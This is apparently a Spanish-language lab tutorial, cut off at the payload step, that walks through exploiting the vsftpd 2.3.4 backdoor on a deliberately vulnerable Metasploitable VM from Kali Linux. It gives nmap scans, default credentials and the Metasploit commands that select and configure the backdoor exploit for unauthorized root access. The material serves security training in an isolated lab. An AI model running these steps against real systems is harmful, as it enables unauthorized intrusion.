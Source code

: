 # Ataque-FTP-vsftpd-2.3.4-con-Kali-y-Metasploit

## Ataque Simulado con Kali Linux: Explotación de Vulnerabilidad FTP vsftpd 2.3.4 Usando Metasploit

##  Descripción de la Práctica

En esta práctica, se asumirán los roles de atacante y víctima utilizando dos máquinas virtuales en red local. El **atacante** operará desde **Kali Linux**, una distribución diseñada para realizar auditorías de seguridad y pruebas de penetración, mientras que la **víctima** será una máquina **Metasploitable**, una máquina vulnerable deliberadamente, usada para fines de práctica en ciberseguridad.

El ataque se centrará en la explotación de un **servicio FTP** vulnerable, específicamente *vsftpd 2.3.4*, utilizando Metasploit para explotar esta vulnerabilidad y obtener acceso no autorizado a la máquina víctima con privilegios elevados.


### Pasos a seguir

1. **Iniciar el entorno virtual** 

Se iniciarán ambas máquinas (Kali Linux y Metasploitable) y se verificará la conectividad entre ellas a través de la red local, comprobando las direcciones IP respectivas.

(Kali Linux y Metasploitable) e **inicia sesión** en la máquina Metasploitable. 

   - **Credenciales**: 
   Usuario y contraseña son `msfadmin`.
   - Verifica la **IP** de la máquina Metasploitable.
   - También comprueba la **IP** de tu máquina Kali Linux.

   - **IP de Kali**: `172.26.16.204`
   - **IP de Metasploitable**: `172.26.16.217`

2. **En Kali Linux, abre un *terminal* y sigue estos pasos:**

   - Arranca el servicio de **PostgreSQL** con el siguiente comando:

     ```bash
     /etc/init.d/postgresql start
     ```
    ![kali](/img/K1.png)

    - Ver estado de **PostgreSQL**

        ![kali](/img/K2.png)

    - Actualiza la lista de paquetes con `apt update` y luego descarga e instala Metasploit con `apt install metasploit-framework`

        ![kali](/img/K3.png)   

    
   - Ejecuta el siguiente comando para iniciar **Metasploit**:

     ```bash
     msfconsole
     ```

     ![kali](/img/K4.png)


3. **Identificar la máquina a atacar**: Este paso generalmente se realiza con herramientas como **Nmap** o **Zenmap**, pero para ahorrar tiempo, podemos omitirlo ya que conocemos la IP de la víctima.

   - Si lo necesitas, aquí está el comando para escanear:

     ```bash
     nmap 172.26.16.217
     ```

4. **Escaneo de puertos y servicios en la víctima**: Utiliza Nmap para ver los puertos abiertos y los servicios que se están ejecutando.

   - Ejecuta el siguiente comando para buscar vulnerabilidades:

    `nmap  –sV  IP_VÍCTIMA`

     ```bash
     nmap -sV 172.26.16.217
     ```

   - Nos fijaremos en el puerto **21 (FTP)**, que está corriendo el servicio **vsftpd 2.3.4**

    ![kali](/img/K5.png)

    ![kali](/img/K5.2.png.)



5. **Buscar un exploit para vsftpd 2.3.4**: Ahora utilizaremos Metasploit para encontrar el exploit correspondiente.

   - Usa el siguiente comando en **Metasploit**:

     ```
     bash
     search vsftpd_234
     ```
      ![kali](/img/K6.png)

   - Metasploit mostrará los exploits disponibles para la versión del servicio.

6. **Seleccionar el exploit**: Usaremos el exploit identificado en el paso anterior.

   - El comando para seleccionar el exploit en Metasploit es el siguiente:

     `use  exploit/SO/servicio/nombre_exploit`

     ```bash
     use exploit/unix/ftp/vsftpd_234_backdoor
     ```
        
    ![kali](/img/K7.png)

7. **Configurar opciones del exploit**: Verifica las opciones requeridas para el exploit con el siguiente comando:

   ```bash
   show options
   ```
    ![kali](/img/K8.png)

   Nos mostrará una lista de los servicios requeridos para que el exploit funcione, y los valores que en ese momento tiene cada servicio. En esta lista, solo necesitaremos dar valores a los servicios marcados como requeridos (columna “Required” marcada como “Yes”). En nuestro caso, tenemos que fijarnos en un servicio llamado RHOST, que aparecerá en blanco (el servicio RPORT ya tiene un valor asignado, y será el puerto 21, que es precisamente el puerto que queremos atacar, por tanto no habrá que tocarlo).

8. **Inyectar el payload:**
 En este caso, no es necesario inyectar un payload, ya que el exploit que estamos usando tiene uno por defecto. Si fuera necesario inyectar un payload, podrías listar los disponibles con el siguiente comando:

    ```bash
    show payloads
    ```
   
    - Luego, seleccionarías el payload adecuado con el comando:

    ```bash
    set PAYLOAD nombre_payload
    ```
    `set PAYLOAD payload/cmd/unix/interact`
      
    ![kali](/img/K9.png)
